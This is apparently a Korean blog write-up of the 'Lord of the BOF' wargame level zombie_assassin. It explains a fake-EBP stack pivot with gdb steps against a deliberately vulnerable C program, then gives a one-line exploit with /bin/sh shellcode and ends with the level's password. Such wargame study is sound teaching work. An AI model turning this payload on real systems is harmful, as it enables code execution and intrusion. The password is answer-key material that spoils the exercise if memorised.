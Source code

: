 ```yaml
---
layout: single
title: "LOB assassin -> zombie_assassin"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - zombie_assassin
4          - FEBP
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  
10 main(int argc, char *argv[])
11 {
12         char buffer[40];
13 
14         if(argc < 2){
15                 printf("argv error\n");
16                 exit(0);
17         }
18 
19         if(argv[1][47] == '\xbf')
20         {
21                 printf("stack retbayed you!\n");
22                 exit(0);
23         }
24 
25         if(argv[1][47] == '\x40')
26         {
27                 printf("library retbayed you, too!!\n");
28                 exit(0);
29         }
30 
31         // strncpy instead of strcpy!
32         strncpy(buffer, argv[1], 48);
33         printf("%s\n", buffer);
34 }

```

Stack frame structure:

| buffer[40] |
| SFP |
| RET |
| argc |
| argv |
| environ |

문제에서 FEBP, fake EBP라는 힌트를 주었다. fake EBP는 golem -> darkknight 문제에서 한번 언급된 바 있다.
fake EBP는 ebp를 통해 eip를 조작하는 기법이다. 이를 알아보기 위해 실험을 해 보았다.

![disas]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/0.png)

disas main 명령어를 통해 leave를 하는 위치를 찾았다. leave ret을 하나씩 실행하고 경과를 지켜보기 위해 이 자리에 breakpoint를 걸고 차근차근 실행해 보았다.

![info_register]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/1.png)

A 40개는 buffer 40바이트, BBBB는 stack frame pointer, CCCC는 return 자리이다. 뒤의 D 200개는 padding과 쉘을 위치시킬 것을 고려해 입력해 보았다. 여기까지는 leave를 하기 전이다.

![memory]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/2.png)

![memory2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/3.png)

buffer와 argv 자리에 위치하고 있는 입력값들의 위치를 찾아 두었다. 그리고 si 명령어로 leave를 해 보았다.

![info_register2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/4.png)

ebp에 BBBB인 42424242가 위치해 있는 것을 볼 수 있다. 여기에서 leave 이후의 ret까지 실행시켜 보았다.

![info_register3]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/5.png)

eip가 BBBB 뒤의 값인 CCCC(43434343)으로 바뀐 것을 볼 수 있다. 원래 0x43434343 자리에는 다음에 실행할 명령어의 위치가 들어 있어야 할 것이다. 이제 CCCC(ret 위치) 대신 leave의 주소인 0x080484df를 입력하고, BBBB 자리에 적당한 주소로 bffffba0를 입력해 보았다.

![info_register4]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/6.png)

이전과 동일한 실행지점까지 실행시켜 보았다. eip가 080484df, ebp가 bffffba0으로 바뀌었다. 여기에서 한 줄 더 실행시켜 보았다.

![info_register5]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/7.png)

eip가 ret인 080484e0로 바뀌고 ebp는 이전에 bffffba0에 들어있는 값인 44444444로 바뀌었다. 여기에서 한줄 더 실행시켜 보았다.

![info_register6]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/8.png)

eip마저 44444444로 바뀌었다. 이는 ebp+4에 위치하고 있는 값이었을 것이다. 일련의 과정들을 통해 fake EBP를 다음과 같이 정리해 볼 수 있다.
본래의 SFP 자리에 어떤 주소지를 입력하고 ret 자리에 leave의 주소를 입력하면, SFP 자리에 입력된 주소지가 ebp가 되고, 거기서 4만큼 증가된 자리에 들어있는 주소지가 eip가 된다.
이를 바탕으로 페이로드를 다음과 같이 작성하였다.

```bash

./zombie_assassin `python –c ‘print “\xa0\xfb\xff\xbf”*10 + “\xd0\xf9\xff\xbf” + “\xdf\x84\x04\x08” + “\x90”*100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80” + “\x90”*75’`

```

1.	ret가 leave를 가리킴으로써 eip가 ret에 들어있는 주소값(\xdf\x84\x04\x08)으로 바뀐다.
2.	ebp가 SFP가 가리키는 주소(\xd0\xf9\xff\xbf)로 바뀐다.
3.	ebp가 SFP에 들어있는 주소가 가리키는 값(\xa0\xfb\xff\xbf)으로 바뀌고, +4가 된 주소에 들어있는 값이 eip에 담긴다.
4.	eip가 \x90” * 100 + shellcode를 실행

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-16/9.png)


my-pass: no place to hide
